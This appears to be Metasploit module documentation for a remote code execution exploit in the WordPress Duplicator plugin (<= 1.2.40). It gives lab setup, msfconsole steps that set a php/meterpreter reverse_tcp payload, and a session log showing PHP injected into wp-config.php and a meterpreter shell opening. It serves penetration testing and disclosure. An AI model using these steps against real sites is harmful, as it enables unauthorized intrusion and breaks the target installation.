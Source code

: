 Duplicator by Snap Creek is a WordPress plugin that can be used to create a complete backup of a WordPress instance and restore it on a fresh server. The export method generates 2 files:
* An ZIP archive with the complete WordPress files and Duplicator specific files:
  * A copy of the `installer.php` script: `installer-backup.php`
  * A SQL script that will be used to restore the database content: `database.sql`
* An installer PHP script to restore the archive `installer.php`

When the `installer.php` completes its process, the following files remain in the directory and has to be manually deleted:
* The ZIP archive
* `database.sql` 
* `installer-backup.php`
* `installer-data.sql` 
* `installer-log.txt`
* `installer.php`

WARNING: exploiting the vulnerability will overwrite the wp-config.php file, breaking the Wordpress instance.

## Vulnerable application

Install a vulnerable version of [WordPress Duplicator (<= 1.2.40)](https://downloads.wordpress.org/plugin/duplicator.1.2.40.zip) and create a backup.
Put the `install.php` and archive files on a clean web server.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/wordpress_duplicator-`
3. Set the `RHOST`.
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. Set a payload: `set PAYLOAD php/meterpreter/reverse_tcp`
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a meterpreter session

## Options

**TARGETURI**

The path to the installer.php file to exploit By default, the path is `/installer.php`.


## Scenarios

### Debian 9 running Wordpress 4.9.8 with Duplicator 1.2.40

```
msf5 > use exploit/multi/php/wordpress_duplicator 
msf5 exploit(multi/php/wordpress_duplicator) > set RHOSTS 1.1.1.1
RHOSTS => 192.168.56.101
msf5 exploit(multi/php/wordpress_duplicator) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/php/wordpress_duplicator) > set TARGETURI /installer_vuln.php
TARGETURI => /installer_vuln.php
msf5 exploit(multi/php/wordpress_duplicator) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Checking if the wp-config.php file already exists...
[*] This WordPress was not restored. Creating the wp-config.php file...
[*] Successfully created the wp-config.php file!
[*] All good! Injecting PHP code in the wp-config.php file...
[*] Requesting wp-config.php to execute the payload...
[*] Sending stage (37775 bytes) to 1.1.1.1

meterpreter > sysinfo 
Computer    : debian
OS          : Linux debian 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
Meterpreter : php/linux
```

